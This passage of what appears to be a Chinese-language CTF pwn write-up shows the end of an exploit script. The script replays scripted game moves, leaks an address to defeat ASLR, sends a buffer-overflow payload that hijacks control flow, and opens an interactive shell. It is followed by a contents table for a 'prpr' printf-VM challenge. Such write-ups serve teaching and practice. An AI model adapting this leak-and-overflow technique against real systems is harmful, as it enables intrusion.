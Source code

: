 ```py
rand_nums = '4 3 2 4 2 4 3 1 2 2 3 4 3 4 4 3 1 3 1 1 4 1 4 2 3 3 3 4 4 4 2 3 3 3 2 4 2 1 4 3 2 2 2 4 1 2 3 1 4 3 2 3 4 1 1 2 3 3 1 2 2 2 1 4 1 2 3 2 2 2 1 4 3 2 3 4 3 1 4 3 4 1 1 3 1 1 4 4 3 4 1 1 1 1 4 1 3 3 3 4 4 3 3 3 4 2 2 3 2 1 1 1 2 1 3 2 2 2 1 4 1 2 4 2 2 4 2 4 2 4 4 1 2 2 3 2 3 4 4 1 1 4 1 2 4 4 3 1 1 4 1 2 1 4 3 2 3 4 2 4 4 1 1 1 2 3 2 1 3 1 1 3 4 1 4 4 4 2 4 1 1 4 2 1 4 4 3 2 3 4 2 2 4 2 3 1 4 4 1 2 1 1 4 4 2 3 3 1 1 3 1 1 2 2 2 1 1 4 3 4 3 4 1 2 1 3 2 4 3 3 2 3 3 1 2 4 4 1 1 4 3 1 4 4 3 1 1 3 4 3 2 2 2 3 3 2 1 1 1 3 3 2 1 1 3 3 1 2 3 1 1 1 1 4 4 3 1 4 2 4 2 3 2 3 1 4 4 2 4'.split(' ')
rand_nums = [ int(i) for i in rand_nums ][::-1]

#------------- 填充整个 276 长度的 byte 数组 -------------
#------------- 并使当前计算的数字为 0x60，也就是 addr_virtfunc_exit 地址最后有一个字节为 0x60 -------------

for i in range(0, 92):
	cur_nums = rand_nums.pop()
	if cur_nums == 1: continue_game(2)
	if cur_nums == 2: continue_game(0)
	if cur_nums == 3: continue_game(1)
	if cur_nums == 4: continue_game(1)

flag = False
for i in range(92, 276):
	cur_nums = rand_nums.pop()
	if cur_nums == 1: continue_game(1)
	if cur_nums == 2: 
		if not flag:
			continue_game(1)
			flag = True
		else: continue_game(0)
	if cur_nums == 3: continue_game(1)
	if cur_nums == 4: continue_game(1)

data = show()
leak_addr = u64(data[-6:].ljust(8, b'\x00'))
base_addr = leak_addr - 0x4C60
exit()

#------------- 发送 payload -------------

payload	= b''
payload += b'a' * 0x20 + p64(base_addr + 0x5840) + p64(base_addr + 0x0000000000002516)

p.sendlineafter(b'favorite number.\n', payload)
p.interactive()
```

# [](#header-3)pwn prpr

| prp 题目索引: |
|--------|
| [prpr printf虚拟机介绍](#prpr-printf虚拟机介绍) |
| [prpr 关键函数的指令逆向](#prpr-关键函数的指令逆向) |
| [&nbsp;&nbsp;prpr 函数: main ————— 菜单](#prpr-虚拟函数-main) |
| [&nbsp;&nbsp;prpr 函数: choice_1 ——— 字符串"与"](#prpr-虚拟函数-choice_1) |
| [&nbsp;&nbsp;prpr 函数: choice_2 ——— 逐数字"与"](#prpr-虚拟函数-choice_2) |
| [&nbsp;&nbsp;prpr 函数: choice_3 ——— 字符串"异或"](#prpr-虚拟函数-choice_3) |
| [&nbsp;&nbsp;prpr 函数: choice_4 ——— 逐数字"异或"](#prpr-虚拟函数-choice_4) |
| [&nbsp;&nbsp;prpr 函数: choice_5 ——— 字符串"或"](#prpr-虚拟函数-choice_5) |